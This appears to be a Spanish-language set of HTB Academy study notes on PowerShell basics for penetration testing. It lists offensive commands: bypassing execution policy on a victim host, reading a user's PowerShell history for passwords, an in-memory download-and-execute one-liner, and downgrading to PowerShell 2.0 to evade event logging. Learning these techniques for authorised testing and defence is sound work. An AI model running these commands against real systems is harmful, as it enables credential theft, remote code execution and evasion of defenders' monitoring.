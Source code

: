 ![image](https://github.com/gecr07/HTB-Academy/assets/63270579/6e0d46d8-b246-4b0f-988f-bbcd620064a5)


![image](https://github.com/gecr07/HTB-Academy/assets/63270579/3756e296-c4f3-4cb2-8f00-bc7f0aedf1c6)

## Powershell Basics

![image](https://github.com/gecr07/HTB-Academy/assets/63270579/5d6efc91-079f-402c-b903-5763eaac637d)

```
Get-ExecutionPolicy -List # Imprimirá la configuración de la política de ejecución para cada alcance en un host.
Get-ChildItem Env: | ft Key,Value # es como set pero mas ordenado y en PS

Set-ExecutionPolicy Bypass -Scope Process # Esto cambiará la política de nuestro proceso actual utilizando el -Scopeparámetro. Al hacerlo, se revertirá la política una vez que abandonemos el proceso o lo finalicemos. Esto es ideal porque no realizaremos un cambio permanente en el host de la víctima
Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt # Con esta cadena, podemos obtener el historial de PowerShell del usuario especificado. Esto puede resultar muy útil ya que el historial de comandos puede contener contraseñas o indicarnos archivos de configuración o scripts que contengan contraseñas.

powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>" # Esta es una forma rápida y sencilla de descargar un archivo de la web usando PowerShell y llamarlo desde la memoria.

```

![image](https://github.com/gecr07/HTB-Academy/assets/63270579/e1341cea-b2ef-4a4b-ad7b-c397f4320634)


### Powershell 2.0

Muchos defensores desconocen que a menudo existen varias versiones de PowerShell en un host. Si no se desinstalan, aún se pueden utilizar. El registro de eventos de Powershell se introdujo como una característica con Powershell 3.0 y posteriores. Con eso en mente, podemos intentar llamar a Powershell versión 2.0 o anterior. Si tiene éxito, nuestras acciones desde el shell no se registrarán en el Visor de eventos. Esta es una excelente manera de permanecer fuera del radar de los defensores y al mismo tiempo utilizar los recursos integrados en los anfitriones para nuestro beneficio. A continuación se muestra un ejemplo de cómo degradar Powershell.


```
Get-Host #
powershell.exe -version 2
``` 

El comando Get-Host en PowerShell se utiliza para obtener información sobre la sesión actual de PowerShell y el entorno de host en el que se está ejecutando. Proporciona detalles sobre la versión de PowerShell, la cultura regional, la configuración de pantalla y otros aspectos relacionados con la sesión en curso.

![image](https://github.com/gecr07/HTB-Academy/assets/63270579/2d8877ba-e7e5-457b-9cfc-f3e2e8847a90)
